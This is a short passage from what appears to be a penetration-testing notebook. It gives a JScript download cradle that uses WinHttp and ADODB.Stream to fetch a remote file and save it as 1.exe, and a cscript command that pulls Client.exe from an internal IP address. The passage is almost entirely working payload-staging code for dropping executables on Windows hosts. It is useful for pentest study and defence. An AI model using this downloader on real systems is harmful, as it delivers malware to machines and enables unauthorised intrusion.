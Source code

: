 ```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1; BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("1.exe");
```
	>cscript /nologo 1.js http://192.168.1.192/Client.exe
![image](/assets/Pentest_Note/master/img/312.png)